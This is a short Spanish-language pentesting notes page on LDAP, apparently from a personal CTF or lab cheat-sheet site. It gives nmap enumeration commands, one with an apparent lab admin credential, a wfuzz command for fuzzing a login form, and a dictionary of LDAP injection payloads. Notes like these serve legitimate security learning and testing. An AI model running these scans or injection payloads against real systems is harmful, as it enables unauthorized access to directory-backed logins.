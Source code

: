 ```yaml
---
title: "LDAP"
layout: "single"
category: "Servicios comunes"
slug: "servicios-comunes/ldap"
date: "2025-09-30"
---
```


### Enumeracion
```bash
### SIN CREDENCIALES
nmap <IP> --script 'ldap* and not brute' 

### CON CREDENCIALES
nmap 192.168.0.112 -p 389 --script ldap-search --script-args 'ldap.username="cn=admin,dc=symfonos,dc=local", ldap.password="qMDdyZh3cT6eeAWD"'
```

### LDAP Injection
A veces, como con SQL injection, si se trata de un panel de login que loguea con credenciales LDAP (y quizás no lo sabemos), siempre podemos probar a hacer una inyección LDAP.

Lo ideal es capturar la request con burpsuite y cambiar el método a POST para ver como se tramita la petición para pasarle la URL con los parámetros a wfuzz.
```bash

```wfuzz -c -z file,/ruta/al/diccionario -u 'http://<IP>/admin.php?username=FUZZ&password=FUZZ'

```

#### DICCIONARIO LDAP INJECTION
```bash
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```
